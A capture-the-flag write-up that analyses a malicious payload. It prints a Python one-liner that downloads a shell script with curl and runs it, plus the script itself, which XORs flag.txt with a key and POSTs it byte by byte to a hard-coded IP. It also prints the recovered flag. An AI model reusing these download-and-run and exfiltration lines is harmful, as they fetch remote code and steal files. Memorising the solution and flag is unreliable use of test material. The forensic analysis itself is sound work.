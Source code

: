 # Eval Me Writeup

While the server acts as a simple challenge where we need to solve a certain number of
arithmetic expressions to get the flag, it will throws us a rather nasty payload halfway.  
The first step is to uncover the _malicious_ payload (using [this](./solve.py) script):
```python
__import__("subprocess").check_output("(curl -sL https://shorturl.at/fgjvU -o extract.sh && chmod +x extract.sh && bash extract.sh && rm -f extract.sh)>/dev/null 2>&1||true",shell=True)
```

So basically, the Python code downloads an external shell script and executes it.  
Here's the content of `extract.sh`:
```sh
#!/bin/bash

FLAG=$(cat flag.txt)

KEY='s3k@1_v3ry_w0w'


# Credit: https://gist.github.com/kaloprominat/8b30cda1c163038e587cee3106547a46
Asc() { printf '%d' "'$1"; }


XOREncrypt(){
    local key="$1" DataIn="$2"
    local ptr DataOut val1 val2 val3

    for (( ptr=0; ptr < ${#DataIn}; ptr++ )); do

        val1=$( Asc "${DataIn:$ptr:1}" )
        val2=$( Asc "${key:$(( ptr % ${#key} )):1}" )

        val3=$(( val1 ^ val2 ))

        DataOut+=$(printf '%02x' "$val3")

    done

    for ((i=0;i<${#DataOut};i+=2)); do
    BYTE=${DataOut:$i:2}
    curl -m 0.5 -X POST -H "Content-Type: application/json" -d "{\"data\":\"$BYTE\"}" http://35.196.65.151:30899/ &>/dev/null
    done
}

XOREncrypt $KEY $FLAG

exit 0
```

The above script encrypts the flag by XORing it with the key `s3k@1_v3ry_w0w` then exfiltrates it byte by byte.  
Since we have a network capture, and the attacker's server runs over clear HTTP, we can recover these bytes and
decrypt them using the same key in order to recover the flag.
```sh
tshark -r capture.pcapng -Y "http and http.request" -T fields -e json.value.string | tr -d "\n" | python3 -c "from pwn import *;from binascii import unhexlify;x=unhexlify(input().strip());print(xor(x,b's3k@1_v3ry_w0w').decode())"
``` 

Executing the one liner will give us the flag: `SEKAI{3v4l_g0_8rrrr_8rrrrrrr_8rrrrrrrrrrr_!!!_8483}`

